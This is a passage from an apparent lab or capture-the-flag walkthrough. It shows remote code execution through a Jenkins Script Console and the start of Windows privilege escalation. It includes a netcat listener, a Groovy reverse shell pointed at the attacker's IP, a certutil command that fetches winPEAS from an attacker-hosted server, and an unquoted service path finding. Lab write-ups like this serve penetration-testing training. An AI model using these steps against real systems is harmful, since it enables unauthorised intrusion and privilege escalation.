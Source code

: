 ```
http://192.168.88.136:8080/script
```

This page provides access to the **Jenkins Script Console**, which allows administrators to execute **Groovy scripts** directly on the server. This is an ideal vector for gaining remote code execution (RCE).

### Setting Up Reverse Shell:

1. I set up a netcat listener on my attacker machine:

```bash
nc -nvlp 8044
```

2. I copied a Groovy reverse shell script from [this gist](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) and modified the IP to my attack machine (`192.168.88.128`).

3. I pasted it into the Jenkins Script Console and executed it.

This successfully gave me a reverse shell as the **`butler`** user.

<img width="532" height="164" alt="image" src="https://github.com/user-attachments/assets/549d6c7d-9e86-4343-9ed1-336811da0cf2" />

---

## Privilege Escalation – Enumeration with winPEAS

To identify privilege escalation paths, I transferred and executed `winPEAS` on the target.

### Steps:

1. Downloaded from: [PEASS-ng GitHub](https://github.com/peass-ng/PEASS-ng/releases)
2. Started a web server on my Kali machine:

```bash
python3 -m http.server 80
```

3. On the compromised machine, ran:

```cmd
certutil.exe -urlcache -f http://192.168.88.128/winPEASx64.exe winpeas.exe
```

4. Executed `winpeas.exe` to enumerate for escalation opportunities.

### Finding:

WinPEAS identified a service with **unquoted service path**:

<img width="891" height="89" alt="image" src="https://github.com/user-attachments/assets/40a7ec1a-718d-416c-9785-a156f948e185" />

This means that Windows will attempt to execute:

* `C:\Program.exe`
* `C:\Program Files.exe`
* `C:\Program Files (x86)\Wise\Wise.exe`
